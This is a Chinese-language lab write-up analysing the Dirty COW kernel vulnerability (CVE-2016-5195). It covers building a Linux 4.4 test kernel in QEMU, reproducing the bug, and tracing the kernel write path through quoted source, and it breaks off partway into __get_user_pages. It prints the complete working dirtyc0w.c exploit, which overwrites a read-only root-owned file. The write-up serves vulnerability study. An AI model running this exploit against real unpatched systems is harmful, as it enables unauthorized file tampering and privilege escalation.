




# CVE-2016-5195_dirtycow

## 环境准备

内核源码下载与解压

```
sudo wget https://mirror.tuna.tsinghua.edu.cn/kernel/v4.x/linux-4.4.tar.xz
xz -d linux-4.4.tar.xz
tar -xvf linux-4.4.tar
cd linux-4.4
```

编译

```
sudo make bzImage -j4
```

这里的文件系统就随便拿了CTF内核题目的一个`rootfs.cpio`，启动脚本`boot.sh`也是题目里给的，在自己创建的`core`文件夹里解压后，把`exp`编译好了丢进去，改一下`init`文件，然后重新打包，mv到主目录；

```
mkdir core
mv rootfs.cpio core/rootf.cpio.gz
cd core
gunzip rootfs.cpio.gz
cpio -idmv > rootfs.cpio
cp pathto/dirtyc0w.c .
gcc -pthread -static dirtyc0w.c -o dirtyc0w
vim init
find . | cpio -o --format=newc > rootfs.cpio
mv rootfs.cpio ..
```

回到该CVE的主目录，把编译好的，在`/linux-4.4/arch/x86/boot/`中的`bzImage`，丢到当前目录；

```
cd ..
cp linux-4.4/arch/x86/boot/bzImage .
vim boot.sh
```

## 简单复现

启动qemu；

```
sudo ./boot.sh

// boot.sh
#!/bin/bash
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -enable-kvm -monitor /dev/null -m 64M --nographic  -smp cores=1,threads=1 -cpu kvm64,+smep

```

查看当前用户状态和文件；

```
/ $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
/ $ uname -a
Linux (none) 4.4.0 #1 SMP Sat Nov 20 21:21:06 CST 2021 x86_64 GNU/Linux
/ $ ls -l foo
-r-----r--    1 ctf      ctf             15 Nov 20 13:40 foo
/ $ cat foo
this_is_a_test
```

执行`dirtyc0w`

```
/ $ ./dirtyc0w foo 12345678912345
mmap 7f1daeca3000

madvise 0

procselfmem 1400000000

/ $ cat foo
12345678912345
```

可以看到只读文件`foo`内容已经被修改了；

## 前置知识

### Copy-On-Write

假设存在两个进程p1, p2，p2为p1调用fork产生。此时，p1和p2共用一块空间，当对这个空间进行修改时，才会再拷贝一份；

这主要是因为：

1. 子进程中往往会调用execve()相关的函数实现具体的功能，例如一个进程想要执行另一个程序，先调用fork将自身拷贝，然后其中一个拷贝（通常是子进程）调用execve将自身替换成新的程序进程。当替换成功后，程序执行流就交给了这个新的进程，就如glibc pwn中hijack malloc_hook到execve上。
2. fork实际上创建了一个与父进程pid不一样的副本，如果此时，把整个父进程的数据完整拷贝到子进程的新空间，而execve相关函数在执行时，会直接替换掉当前进程的地址空间，意味着拷贝是无效的，需要进行效率上的优化。



### madvise

```
int madvise(void *addr, size_t length, int advise);
```

该函数功能为：在从 `addr` 指定的地址开始，长度等于 `len` 参数值的范围内，该区域的用户虚拟内存应遵循特定的使用模式。

advise有如下选择：

```
MADV_ACCESS_DEFAULT
此标志将指定范围的内核预期访问模式重置为缺省设置。
 
MADV_ACCESS_LWP
此标志通知内核，移近指定地址范围的下一个 LWP 就是将要访问此范围次数最多的 LWP。内核将相应地为此范围和 LWP 分配内存和其他资源。
 
MADV_ACCESS_MANY
此标志建议内核，许多进程或 LWP 将在系统内随机访问指定的地址范围。内核将相应地为此范围分配内存和其他资源。
 
MADV_DONTNEED
此系统调用相当于通知内核addr～addr+len的内存在接下来不再使用，内核将释放掉这一块内存以节省空间，相应的页表项也会被置空。
```

## POC

```c
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>
 
void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,(uintptr_t) map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
 
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

## 复现过程

### 只读文件生成与状态保存

首先创建一个foo的只读文件；

```
sudo -s
echo this_is_a_test > foo
chmod 0404 foo
ls -ahl | grep foo
-r-----r--   1 root  root    15 Nov 20 21:40 foo
```

以`read-only`的形式打开，将文件状态存储到stat结构体中，并且用`name`变量记录fd；

```c
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
```

### mmap 私有cow映射到用户空间 

接着，使用mmap将此文件的内容 **以私有的写时复制** 映射到了用户空间。

```c
// void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);     
  printf("mmap %zx\n\n",(uintptr_t) map);
```

- `addr`，映射地址，`NULL`代表让内核选取一个合适的地址。
- `length`代表要映射的进程地址空间的大小。这里是文件的大小`st_size`。
- `prot`代表映射区域的读写属性。这里是只读。
- `flags`设置内存映射的属性。这里是 **MAP_PRIVATE** 创建一个私有的写时复制的映射。（多个process可以通过私有映射访问同一个文件，并且修改后 **不会同步到磁盘文件中** ）
- `fd`代表这是一个文件映射。
- `offset`是指在文件映射中的偏移量。

返回一个映射空间地址`map`；

### 启动线程

启动两个线程`madviseThread`和`procselfmemThread`：

```c
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
```

#### madviseThread

对于`madviseThread`而言，其不断地掉用100000000次，设置内核的`map`到`map+100`的内存空间为不再使用的可清除状态；

```c
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
```

#### procselfmemThread

对于`procselfmemThread`而言：

```c
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,(uintptr_t) map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
```

首先是以可读写的状态打开了`/proc/self/mem`，循环调用100000000次的`lseek`和`write`；

`/proc/self/mem`是进程的内存空间， 如果修改了该文件相当于修改了当前进程的内存，但是没有被正确映射的内存空间是无法读取的，只有读取的偏移值是被映射的区域才能正确读取内存内容，如：

```
$ sudo cat /proc/6412/mem
cat: /proc/6412/mem: Input/output error
```

因此使用了`lseek`调整偏移写的位置；

```c
off_t lseek(int fd, off_t offset, int whence);
```

`offset`参数传递了`map`，将位置调整到mmap返回的位置（也就是文件被映射的位置），mmap时，只有读的权限。

`whence`参数传递了`SEEK_SET` ，指定`offset`，即映射地址`map` 为新的读写位置。

之后进行100000000次`write`操作来试图向该内存写入内容。

```c
c+=write(f,str,strlen(str));
```

这两个线程是竞争的关系；

一个设置了`map`到`map+offset`的内存空间为不再可用待清除的状态，一个不断地调用写操作，希望往`map`里写入内容；

### 竞争

#### write执行流

当调用`write(f,str,strlen(str))`时，存在如下的调用流程：

```
write -> 
sys_write -> 
SYSCALL_DEFINE3 ->
vfs_write ->
__vffs_write ->
mem_write ->
mem_wr ->
__get_free_pages
```

##### sys=>vfs=>mem

`sys_write`和`SYSCALL_DEFINE3`的定义位于`include/linux/syscalls.h`中；

```c
#define SYSCALL_DEFINE3(name, ...) SYSCALL_DEFINEx(3, _##name, __VA_ARGS__)

asmlinkage long sys_write(unsigned int fd, const char __user *buf, size_t count);
```

对`SYSCALL_DEFINE3`和`vfs_write`的描述在`fd/read_write.c`中；

```c
SYSCALL_DEFINE3(write, unsigned int, fd, const char __user *, buf,
		size_t, count)
{
	struct fd f = fdget_pos(fd);         // 获得文件
	ssize_t ret = -EBADF;                // 初始化ret
	if (f.file) {
		loff_t pos = file_pos_read(f.file);   // 获取文件位置
		ret = vfs_write(f.file, buf, count, &pos);   // 调用vfs_write
		if (ret >= 0)
			file_pos_write(f.file, pos);
		fdput_pos(f);
	}
	return ret;
}

ssize_t vfs_write(struct file *file, const char __user *buf, size_t count, loff_t *pos)
{
	ssize_t ret;
    // 判断文件可写
	if (!(file->f_mode & FMODE_WRITE))
		return -EBADF;
	if (!(file->f_mode & FMODE_CAN_WRITE))
		return -EINVAL;
	if (unlikely(!access_ok(VERIFY_READ, buf, count)))
		return -EFAULT;
	ret = rw_verify_area(WRITE, file, pos, count);   // rw_verify_area()进行验证
	if (ret >= 0) {
		count = ret;
		file_start_write(file);  // 开始写
		ret = __vfs_write(file, buf, count, pos);  // 调用__vfs_write()
		if (ret > 0) {
			fsnotify_modify(file);
			add_wchar(current, ret);
		}
		inc_syscw(current);
		file_end_write(file);    // 结束写
	}
	return ret;
}

int rw_verify_area(int read_write, struct file *file, const loff_t *ppos, size_t count)
{
	struct inode *inode;
	loff_t pos;
	int retval = -EINVAL;

	inode = file_inode(file);
	if (unlikely((ssize_t) count < 0))
		return retval;
	pos = *ppos;
	if (unlikely(pos < 0)) {
		if (!unsigned_offsets(file))
			return retval;
		if (count >= -pos) /* both values are in 0..LLONG_MAX */
			return -EOVERFLOW;
	} else if (unlikely((loff_t) (pos + count) < 0)) {
		if (!unsigned_offsets(file))
			return retval;
	}

	if (unlikely(inode->i_flctx && mandatory_lock(inode))) {
		retval = locks_mandatory_area(
			read_write == READ ? FLOCK_VERIFY_READ : FLOCK_VERIFY_WRITE,
			inode, file, pos, count);
		if (retval < 0)
			return retval;
	}
	retval = security_file_permission(file,
				read_write == READ ? MAY_READ : MAY_WRITE);
	if (retval)
		return retval;
	return count > MAX_RW_COUNT ? MAX_RW_COUNT : count;
}
```

`__vfs_write`同样位于`fs/read_write.c`中；

```c
ssize_t __vfs_write(struct file *file, const char __user *p, size_t count,
		    loff_t *pos)
{
	if (file->f_op->write)
		return file->f_op->write(file, p, count, pos);
	else if (file->f_op->write_iter)
		return new_sync_write(file, p, count, pos);
	else
		return -EINVAL;
}
```

在`fs/proc/base.c`中，有`mem_write`及其调用`mem_rw`，由`mem_rw`调用`__get_free_pages`；

```c
static const struct file_operations proc_mem_operations = {
	.llseek		= mem_lseek,
	.read		= mem_read,
	.write		= mem_write,
	.open		= mem_open,
	.release	= mem_release,
};

static ssize_t mem_write(struct file *file, const char __user *buf,
			 size_t count, loff_t *ppos)
{
	return mem_rw(file, (char __user*)buf, count, ppos, 1);
}

```

##### mem_rw

需要重点分析`mem_rw`函数；

```c
static ssize_t mem_rw(struct file *file, char __user *buf,
            size_t count, loff_t *ppos, int write)            //write=1
{
    struct mm_struct *mm = file->private_data;   
    unsigned long addr = *ppos;
    ssize_t copied;
    char *page;
 
    if (!mm)                   // 创建mm_struct结构体不成功则返回0
        return 0;
 
    page = (char *)__get_free_page(GFP_TEMPORARY);        //获取一个free page,返回指向新页面的指针并将页面清零
    if (!page)                  // 如果申请空页失败，则返回-ENOMEM
        return -ENOMEM;       
 
    copied = 0;
    if (!atomic_inc_not_zero(&mm->mm_users))//atomic_inc_not_zero(v)用于将atomic_t变量*v加1，并测试加1后的*v是否不为零，如果不为零则返回真.因此这里是将mm->mm_users+1，测试是否为0
        goto free;                            //为0的话就free掉
 
    while (count > 0) {                        //写入的size大于0进入while
 
        int this_len = min_t(int, count, PAGE_SIZE);    //类型为int。count返回PAGE_SIZE中更小的那个，防止页不够写
 
        if (write && copy_from_user(page, buf, this_len)) {   // 将buf拷贝this_size长度到新申请的page上
            copied = -EFAULT;
            break;
        }
 
        this_len = access_remote_vm(mm, addr, page, this_len, write);    //write=1,这里this_len是拷贝的长度
        
        if (!this_len) {
            if (!copied)
                copied = -EIO;  // 拷贝失败返回-EIO
            break;
        }
 
        if (!write && copy_to_user(buf, page, this_len)) {
            copied = -EFAULT;
            break;
        }
 
        buf += this_len;
        addr += this_len;
        copied += this_len;
        count -= this_len;
    }
    *ppos = addr;
 
    mmput(mm);
 
free:
    free_page((unsigned long) page);            //free申请出来的页
    return copied;
}	
```

###### mm_struct

首先生成一个新的`mm_struct`结构体；

```c
struct mm_struct {
 
    //指向线性区对象的链表头
    struct vm_area_struct * mmap;       /* list of VMAs */
    //指向线性区对象的红黑树
    struct rb_root mm_rb;
    //指向最近找到的虚拟区间
    struct vm_area_struct * mmap_cache; /* last find_vma result */
 
    //用来在进程地址空间中搜索有效的进程地址空间的函数
    unsigned long (*get_unmapped_area) (struct file *filp,
                unsigned long addr, unsigned long len,
                unsigned long pgoff, unsigned long flags);
 
       unsigned long (*get_unmapped_exec_area) (struct file *filp,
                unsigned long addr, unsigned long len,
                unsigned long pgoff, unsigned long flags);
 
    //释放线性区时调用的方法，         
    void (*unmap_area) (struct mm_struct *mm, unsigned long addr);
 
    //标识第一个分配文件内存映射的线性地址
    unsigned long mmap_base;        /* base of mmap area */
 
 
    unsigned long task_size;        /* size of task vm space */
    /*
     * RHEL6 special for bug 790921: this same variable can mean
     * two different things. If sysctl_unmap_area_factor is zero,
     * this means the largest hole below free_area_cache. If the
     * sysctl is set to a positive value, this variable is used
     * to count how much memory has been munmapped from this process
     * since the last time free_area_cache was reset back to mmap_base.
     * This is ugly, but necessary to preserve kABI.
     */
    unsigned long cached_hole_size;
 
    //内核进程搜索进程地址空间中线性地址的空间空间
    unsigned long free_area_cache;      /* first hole of size cached_hole_size or larger */
 
    //指向页表的目录
    pgd_t * pgd;
 
    //共享进程时的个数
    atomic_t mm_users;          /* How many users with user space? */
 
    //内存描述符的主使用计数器，采用引用计数的原理，当为0时代表无用户再次使用
    atomic_t mm_count;          /* How many references to "struct mm_struct" (users count as 1) */
 
    //线性区的个数
    int map_count;              /* number of VMAs */
 
    struct rw_semaphore mmap_sem;
 
    //保护任务页表和引用计数的锁
    spinlock_t page_table_lock;     /* Protects page tables and some counters */
 
    //mm_struct结构，第一个成员就是初始化的mm_struct结构，
    struct list_head mmlist;        /* List of maybe swapped mm's.  These are globally strung
                         * together off init_mm.mmlist, and are protected
                         * by mmlist_lock
                         */
 
    /* Special counters, in some configurations protected by the
     * page_table_lock, in other configurations by being atomic.
     */
 
    mm_counter_t _file_rss;
    mm_counter_t _anon_rss;
    mm_counter_t _swap_usage;
 
    //进程拥有的最大页表数目
    unsigned long hiwater_rss;  /* High-watermark of RSS usage */、
    //进程线性区的最大页表数目
    unsigned long hiwater_vm;   /* High-water virtual memory usage */
 
    //进程地址空间的大小，锁住无法换页的个数，共享文件内存映射的页数，可执行内存映射中的页数
    unsigned long total_vm, locked_vm, shared_vm, exec_vm;
    //用户态堆栈的页数，
    unsigned long stack_vm, reserved_vm, def_flags, nr_ptes;
    //维护代码段和数据段
    unsigned long start_code, end_code, start_data, end_data;
    //维护堆和栈
    unsigned long start_brk, brk, start_stack;
    //维护命令行参数，命令行参数的起始地址和最后地址，以及环境变量的起始地址和最后地址
    unsigned long arg_start, arg_end, env_start, env_end;
 
    unsigned long saved_auxv[AT_VECTOR_SIZE]; /* for /proc/PID/auxv */
 
    struct linux_binfmt *binfmt;
 
    cpumask_t cpu_vm_mask;
 
    /* Architecture-specific MM context */
    mm_context_t context;
 
    /* Swap token stuff */
    /*
     * Last value of global fault stamp as seen by this process.
     * In other words, this value gives an indication of how long
     * it has been since this task got the token.
     * Look at mm/thrash.c
     */
    unsigned int faultstamp;
    unsigned int token_priority;
    unsigned int last_interval;
 
    //线性区的默认访问标志
    unsigned long flags; /* Must use atomic bitops to access the bits */
 
    struct core_state *core_state; /* coredumping support */
#ifdef CONFIG_AIO
    spinlock_t      ioctx_lock;
    struct hlist_head   ioctx_list;
#endif
#ifdef CONFIG_MM_OWNER
    /*
     * "owner" points to a task that is regarded as the canonical
     * user/owner of this mm. All of the following must be true in
     * order for it to be changed:
     *
     * current == mm->owner
     * current->mm != mm
     * new_owner->mm == mm
     * new_owner->alloc_lock is held
     */
    struct task_struct *owner;
#endif
 
#ifdef CONFIG_PROC_FS
    /* store ref to file /proc/<pid>/exe symlink points to */
    struct file *exe_file;
    unsigned long num_exe_file_vmas;
#endif
#ifdef CONFIG_MMU_NOTIFIER
    struct mmu_notifier_mm *mmu_notifier_mm;
#endif
#ifdef CONFIG_TRANSPARENT_HUGEPAGE
    pgtable_t pmd_huge_pte; /* protected by page_table_lock */
#endif
    /* reserved for Red Hat */
#ifdef __GENKSYMS__
    unsigned long rh_reserved[2];
#else
    /* How many tasks sharing this mm are OOM_DISABLE */
    union {
        unsigned long rh_reserved_aux;
        atomic_t oom_disable_count;
    };
 
    /* base of lib map area (ASCII armour) */
    unsigned long shlib_base;
#endif
};
```

`mm_struct`与`task_struct`的关系如下：



如果加上`vma struct`，有：



其中重要的几个：

- `mm_users`：表示正在引用该地址空间的thread数目。是一个线程级的计数器。

  ```c
  atomic_t mm_users;			/* How many users with user space? */
  ```

- `mm_count`：表示这个地址空间被内核线程引用的次数

  ```c
  atomic_t mm_count;			/* How many references to "struct mm_struct" (users count as 1) */
  ```

- 当 `mm_user `和 `mm_count`都等于0的时候才会free这一块`mm_struct`，代表此时既没有用户级进程使用此地址空间，也没有内核级线程引用。

###### __get_free_pages

接着申请一个新的页面，返回指向新页面的指针并将页面清零；

###### access_remote_vm

在`mem_rw`第`30`行，将会调用`access_remote_vm`函数；

```c
this_len = access_remote_vm(mm, addr, page, this_len, write);      //write=1
```

该函数位于`/mm/memory.c`中；

```c
/**
 * access_remote_vm - access another process' address space
 * @mm:		the mm_struct of the target address space
 * @addr:	start address to access
 * @buf:	source or destination buffer
 * @len:	number of bytes to transfer
 * @write:	whether the access is a write
 *
 * The caller must hold a reference on @mm.
 *
 * Return: number of bytes copied from source to destination.
 */
int access_remote_vm(struct mm_struct *mm, unsigned long addr,
		void *buf, int len, int write)
{
	return __access_remote_vm(NULL, mm, addr, buf, len, write);
}
```

###### __access_remote_vm

调用函数`__access_remote_vm`，返回的是最后拷贝的长度；

```c
static int __access_remote_vm(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long addr, void *buf, int len, int write)
{
	struct vm_area_struct *vma;
	void *old_buf = buf;

	down_read(&mm->mmap_sem);
	/* ignore errors, just check how much was successfully transferred */
	while (len) {
		int bytes, ret, offset;
		void *maddr;
		struct page *page = NULL;

		ret = get_user_pages(tsk, mm, addr, 1,   // 调用get_user_pages,patch后是get_user_pages_remote
				write, 1, &page, &vma);
		if (ret <= 0) {
#ifndef CONFIG_HAVE_IOREMAP_PROT
			break;
#else
			/*
			 * Check if this is a VM_IO | VM_PFNMAP VMA, which
			 * we can access using slightly different code.
			 */
			vma = find_vma(mm, addr);
			if (!vma || vma->vm_start > addr)
				break;
			if (vma->vm_ops && vma->vm_ops->access)
				ret = vma->vm_ops->access(vma, addr, buf,
							  len, write);
			if (ret <= 0)
				break;
			bytes = ret;
#endif
		} else {
			bytes = len;
			offset = addr & (PAGE_SIZE-1);
			if (bytes > PAGE_SIZE-offset)
				bytes = PAGE_SIZE-offset;

			maddr = kmap(page);
			if (write) {
				copy_to_user_page(vma, page, addr,
						  maddr + offset, buf, bytes);
				set_page_dirty_lock(page);
			} else {
				copy_from_user_page(vma, page, addr,
						    buf, maddr + offset, bytes);
			}
			kunmap(page);
			page_cache_release(page);
		}
		len -= bytes;
		buf += bytes;
		addr += bytes;
	}
	up_read(&mm->mmap_sem);

	return buf - old_buf;
}
```

其中，`get_user_pages -> __get_user_pages_locked -> __get_user_pages`，这一系列调用是由于write系统调用在内核中会执行`get_user_pages`以获取需要写入的内存页。

###### __get_user_pages

位于`/mm/gup.c`中；

关于其注释

```c
/**
 * __get_user_pages() - pin user pages in memory
 * @tsk:	task_struct of target task
 * @mm:		mm_struct of target mm
 * @start:	starting user address
 * @nr_pages:	number of pages from start to pin
 * @gup_flags:	flags modifying pin behaviour
 * @pages:	array that receives pointers to the pages pinned.
 *		Should be at least nr_pages long. Or NULL, if caller
 *		only intends to ensure the pages are faulted in.
 * @vmas:	array of pointers to vmas corresponding to each page.
 *		Or NULL if the caller does not require them.
 * @nonblocking: whether waiting for disk IO or mmap_sem contention
 *
 * Returns number of pages pinned. This may be fewer than the number
 * requested. If nr_pages is 0 or negative, returns 0. If no pages
 * were pinned, returns -errno. Each page returned must be released
 * with a put_page() call when it is finished with. vmas will only
 * remain valid while mmap_sem is held.
 *
 * Must be called with mmap_sem held.  It may be released.  See below.
 *
 * __get_user_pages walks a process's page tables and takes a reference to
 * each struct page that each user address corresponds to at a given
 * instant. That is, it takes the page that would be accessed if a user
 * thread accesses the given user virtual address at that instant.
 *
 * This does not guarantee that the page exists in the user mappings when
 * __get_user_pages returns, and there may even be a completely different
 * page there in some cases (eg. if mmapped pagecache has been invalidated
 * and subsequently re faulted). However it does guarantee that the page
 * won't be freed completely. And mostly callers simply care that the page
 * contains data that was valid *at some point in time*. Typically, an IO
 * or similar operation cannot guarantee anything stronger anyway because
 * locks can't be held over the syscall boundary.
 *
 * If @gup_flags & FOLL_WRITE == 0, the page must not be written to. If
 * the page is written to, set_page_dirty (or set_page_dirty_lock, as
 * appropriate) must be called after the page is finished with, and
 * before put_page is called.
 *
 * If @nonblocking != NULL, __get_user_pages will not wait for disk IO
 * or mmap_sem contention, and if waiting is needed to pin all pages,
 * *@nonblocking will be set to 0.  Further, if @gup_flags does not
 * include FOLL_NOWAIT, the mmap_sem will be released via up_read() in
 * this case.
 *
 * A caller using such a combination of @nonblocking and @gup_flags
 * must therefore hold the mmap_sem for reading only, and recognize
 * when it's been released.  Otherwise, it must be held for either
 * reading or writing and will not be released.
 *
 * In most cases, get_user_pages or get_user_pages_fast should be used
 * instead of __get_user_pages. __get_user_pages should be used only if
 * you need some special @gup_flags.
 */
```

关于其源码；

```c
/*
 * __get_user_pages() - pin user pages in memory
 * @tsk:	task_struct of target task
 * @mm:		mm_struct of target mm
 * @start:	starting user address
 * @nr_pages:	number of pages from start to pin
 * @gup_flags:	flags modifying pin behaviour
 * @pages:	array that receives pointers to the pages pinned.
 *		Should be at least nr_pages long. Or NULL, if caller
 *		only intends to ensure the pages are faulted in.
 * @vmas:	array of pointers to vmas corresponding to each page.
 *		Or NULL if the caller does not require them.
 * @nonblocking: whether waiting for disk IO or mmap_sem contention
 *
 */
long __get_user_pages(struct task_struct *tsk, struct mm_struct *mm,
        unsigned long start, unsigned long nr_pages,
        unsigned int gup_flags, struct page **pages,
        struct vm_area_struct **vmas, int *nonblocking)
{
    long i = 0;
    unsigned int page_mask;
    struct vm_area_struct *vma = NULL;
 
    if (!nr_pages)  // 检查起始页表是否存在，不存在则返回0
        return 0;
 
    VM_BUG_ON(!!pages != !!(gup_flags & FOLL_GET));
 
    /*
     * If FOLL_FORCE is set then do not force a full fault as the hinting
     * fault information is unrelated to the reference behaviour of a task
     * using the address space
     */
